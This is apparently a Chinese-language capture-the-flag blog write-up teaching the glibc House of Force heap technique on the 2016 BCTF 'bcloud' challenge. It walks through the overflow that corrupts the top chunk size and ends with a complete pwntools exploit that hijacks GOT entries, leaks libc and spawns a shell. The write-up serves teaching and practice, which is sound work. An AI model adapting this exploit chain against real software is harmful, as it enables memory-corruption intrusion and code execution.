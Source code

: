 ```yaml
---
title: House_of_force
date: 2019-03-03 14:40:22
tags:
---
```

House of force
<!--more-->
#0x00
House of 系列归纳中的一篇.题目还是比较简单可以作为House_of_force的教学题.
[2016BCTF_bcloud][1]
# House of force
* 通过某些手段改写`top_chunk`的size 很大例如(`0xffffffff`)
* 假设malloc `sise`不受限制,我们想要控制Aim_address,目前Top地址为Top_address
* 我们只要malloc Aim_address-Top_address之后再malloc一次就可以控制Aim_address.
* 主要是要求malloc的size可控且大小不受限制，可以控制topchunk_size

# Analysis
```python
➜  House_of_force checksec bcloud
[*] '/home/n132/Desktop/House_of_force/bcloud'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
发现可以写got表且没有PIE

程序先输入名字再输入ORG HOST然后开始标准菜单题只是没有show

# 漏洞分析
## Leak_heap
```arm
  puts("Input your name:");
  readuntil((unsigned int)&s, 64, 10);
  v2 = (char *)malloc(0x40u);
  name = (int)v2;
  strcpy(v2, &s);
  warm_welcome((int)v2);
```
&
```arm
  char s; // [esp+1Ch] [ebp-5Ch]
  char *v2; // [esp+5Ch] [ebp-1Ch]
```
这里只要填满s就会在strcpy时将v2一起copy过去导致泄露heap虽然后来我没用上
##  Force the Top chunk
在init org和id时
```arm
  char org; // [esp+1Ch] [ebp-9Ch]
  char *v2; // [esp+5Ch] [ebp-5Ch]
  int host; // [esp+60h] [ebp-58h]
  char *v4; // [esp+A4h] [ebp-14h]
```
```arm
  puts("Org:");
  readuntil((unsigned int)&org, 64, 10);
  puts("Host:");
  readuntil((unsigned int)&host, 64, 10);
  v4 = (char *)malloc(0x40u);
  v2 = (char *)malloc(0x40u);
  Org = (int)v2;
  Host = (int)v4;
  strcpy(v4, (const char *)&host);
  strcpy(v2, &org);
  puts("OKay! Enjoy:)");
```
`strcpy(v2, &org);`  可以改写topchunk size 原理和上面一个一样.
又因为malloc size没有限制...


# 思路
* Force the Top chunk
* malloc *2 to control bss
* got hijacking: free---->puts
* leak libc
* got hijacking: free---->system
* free("/bin/sh")

# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("--->>\n",str(c))
def add(size,c):
	cmd(1)
	p.sendlineafter("tent:\n",str(size))
	p.sendafter("tent:\n",c)
def free(idx):
	cmd(4)
	p.sendlineafter("id:\n",str(idx))
def edit(idx,c):
	cmd(3)
	p.sendlineafter("id:\n",str(idx))
	p.sendafter("tent:\n",c)
#context.log_level='debug'
p=process("./bcloud")
p.sendafter("name:\n","A"*0x40)
p.readuntil("A"*0x40)
heap=u32(p.read(4))-8
log.warning(hex(heap))

p.sendafter("Org:\n","A"*0x40)
p.sendafter("Host:\n",p32(0xfffffff1)+"\n")
array=0x804B0A0
off=array-heap-0xf0
add(off,"A\n")#0
add(0x200,p32(0x50)*34+p32(0x804b014)+p32(0x804b024)+"\n")#1
edit(0,p32(0x08048520)+'\n')
free(1)
base=u32(p.read(4))-(0xf7e65ca0-0xf7e06000)
log.warning(hex(base))
edit(0,p32(0xf7e40da0-0xf7e06000+base)+'\n')
add(0x20,'/bin/sh'+'\n')
free(1)
#gdb.attach(p)
p.interactive()
```


[1]: https://github.com/n132/Watermalon/tree/master/House%20of%20all%20in%20one/House%20of%20force